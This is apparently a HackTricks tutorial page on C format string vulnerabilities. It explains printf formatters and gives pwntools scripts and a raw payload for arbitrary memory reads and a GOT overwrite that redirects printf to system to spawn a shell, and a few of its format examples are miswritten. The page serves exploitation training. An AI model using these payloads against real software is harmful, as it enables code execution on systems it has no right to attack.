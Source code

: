 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

In C **`printf`** is a function that can be used to **print** some string. The **first parameter** this function expects is the **raw text with the formatters**. The **following parameters** expected are the **values** to **substitute** the **formatters** from the raw text.

The vulnerability appears when an **attacker text is used as the first argument** to this function. The attacker will be able to craft a **special input abusing** the **printf format** string capabilities to read and **write any data in any address (readable/writable)**. Being able this way to **execute arbitrary code**.

#### Formatters:

```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```

**Examples:**

* Vulnerable example:

```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```

* Normal Use:

```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```

* With Missing Arguments:

```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```

### **Accessing Pointers**

The format **`%<n>$x`**, where `n` is a number, allows to indicate to printf to select the n parameter (from the stack). So if you want to read the 4th param from the stack using printf you could do:

```c
printf("%x %x %x %x")
```

and you would read from the first to the forth param.

Or you could do:

```c
printf("$4%x")
```

and read directly the forth.

Notice that the attacker controls the `pr`**`intf` parameter, which basically means that** his input is going to be in the stack when `printf` is called, which means that he could write specific memory addresses in the stack.

{% hint style="danger" %}
An attacker controlling this input, will be able to **add arbitrary address in the stack and make `printf` access them**. In the next section it will be explained how to use this behaviour.
{% endhint %}

## **Arbitrary Read**

It's possible to use the formatter **`$n%s`** to make **`printf`** get the **address** situated in the **n position**, following it and **print it as if it was a string** (print until a 0x00 is found). So if the base address of the binary is **`0x8048000`**, and we know that the user input starts in the 4th position in the stack, it's possible to print the starting of the binary with:

```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```

{% hint style="danger" %}
Note that you cannot put the address 0x8048000 at the begining of the input because the string will be cat in 0x00 at the end of that address.
{% endhint %}

## **Arbitrary Write**

The formatter **`$<num>%n`** **writes** the **number of written bytes** in the **indicated address** in the \<num> param in the stack. If an attacker can write as many char as he will with printf, he is going to be able to make **`$<num>%n`** write an arbitrary number in an arbitrary address.

Fortunately, to write the number 9999, it's not needed to add 9999 "A"s to the input, in order to so so it's possible to use the formatter **`%.<num-write>%<num>$n`** to write the number **`<num-write>`** in the **address pointed by the `num` position**.

```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```

However, note that usually in order to write an address such as `0x08049724` (which is a HUGE number to write at once), **it's used `$hn`** instead of `$n`. This allows to **only write 2 Bytes**. Therefore this operation is done twice, one for the highest 2B of the address and another time for the lowest ones.

Therefore, this vulnerability allows to **write anything in any address (arbitrary write).**

In this example, the goal is going to be to **overwrite** the **address** of a **function** in the **GOT** table that is going to be called later. Although this could abuse other arbitrary write to exec techniques:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

We are going to **overwrite** a **function** that **receives** its **arguments** from the **user** and **point** it to the **`system`** **function**.\
As mentioned, to write the address, usually 2 steps are needed: You **first writes 2Bytes** of the address and then the other 2. To do so **`$hn`** is used.

* **HOB** is called to the 2 higher bytes of the address
* **LOB** is called to the 2 lower bytes of the address

Then, because of how format string works you need to **write first the smallest** of \[HOB, LOB] and then the other one.

If HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

If HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

You can find a template to prepare a exploit for this kind of vulnerability in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Or this basic example from [**here**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
  * 32 bit, no relro, no canary, nx, no pie, basic use of format strings to leak the flag from the stack (no need to alter the execution flow)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
  * 32 bit, relro, no canary, nx, no pie, format string to overwrite the address `fflush` with the win function (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
  * 32 bit, relro, no canary, nx, no pie, format string to write an address inside main in `.fini_array` (so the flow loops back 1 more time) and write the address to `system` in the GOT table pointing to `strlen`. When the flow goes back to main, `strlen` is executed with user input and pointing to `system`, it will execute the passed commands.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

